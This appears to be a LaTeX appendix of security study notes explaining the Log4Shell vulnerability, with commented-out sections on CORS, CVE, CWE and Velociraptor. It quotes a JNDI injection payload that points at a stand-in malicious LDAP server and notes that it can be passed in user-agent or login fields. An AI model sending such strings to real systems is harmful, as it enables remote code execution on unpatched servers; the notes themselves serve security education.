\chapter{Attack Pattern, Techniques and Prevention Methods}
\newpage
\section{Attacks}
\subsection{Common Attack Techinques}
\begin{itemize}
    \item RCE - Remote Code Execution
    \item Log4J
    \begin{itemize}
        \item The Log4j vulnerability (Log4Shell) works through JNDI (Java Naming and Directory Interface) injection. Here's how it works:
        \item Log4j had a feature that would interpret strings containing "\${jndi:}" as a command to fetch and execute code from a remote server.
        \item Attackers could exploit this by getting Log4j to log a specially crafted string like: \${jndi:ldap://malicious-server.com/payload}
        \item Interpret the JNDI lookup string
        \item Make a connection to the attacker's LDAP server
        \item Download and execute the Java code hosted there
        \item This code would run with the same privileges as the Java application
        \item It required almost no prerequisites to exploit
        \item The malicious string could be passed through many common fields (user agent strings, login forms, etc.)
        \item Log4j was extremely widespread in Java applications
        \item Getting the system to log the string was enough to trigger the exploit
        \begin{center}
            
\includegraphics[scale=0.5]{resources/15-appendix-log4j.png}
        \end{center}
    \end{itemize}
\end{itemize}


%\subsection{Patterns}
%\subsection{Common Attack Pattern}
%\begin{itemize}
%   \item RCE - Remote Code Execution
%   \item foobar
%\end{itemize}
%
%\subsection{Prevention}
%\subsection{Common Prevention Techniques}
%\begin{itemize}
%   \item CORS
%   \begin{itemize}
%    \tightlist
%    \item request is done but prevents the browser from reading and showing you the content
%    \item for the attacker still good if data exfiltration
%   \end{itemize}
%\end{itemize}
%
%\subsection{Standards and Tools}
%\subsection{Organizations and Standards}
%\begin{itemize}
%    \item CVE
%    \begin{itemize}
%        \tightlist
%        \item CVE is a standardized list of known cybersecurity vulnerabilities, where each gets a unique ID (like CVE-2021-44228) for tracking and reference purposes.
%        \item The system is run by MITRE Corporation and serves as the industry standard database for sharing information about security vulnerabilities across organizations.
%        \begin{center}
%            
\includegraphics[scale=0.5]{resources/15-appendix-rce.png}
%        \end{center}
%    \end{itemize}
%    \item CWE
%    \begin{itemize}
%        \item CWE (Common Weakness Enumeration) is a categorized list of software and hardware security weaknesses - essentially a dictionary of common security flaws that can occur in code or system architecture.
%        \item Unlike CVE which tracks specific instances of vulnerabilities, CWE describes the underlying types of mistakes that can lead to vulnerabilities. For example, CWE-79 refers to Cross-Site Scripting (XSS) as a general category of weakness.
%    \end{itemize}  
%\end{itemize}
%
%\subsection{Tools}
%\begin{itemize}
%    \item Velociraptor
%\end{itemize}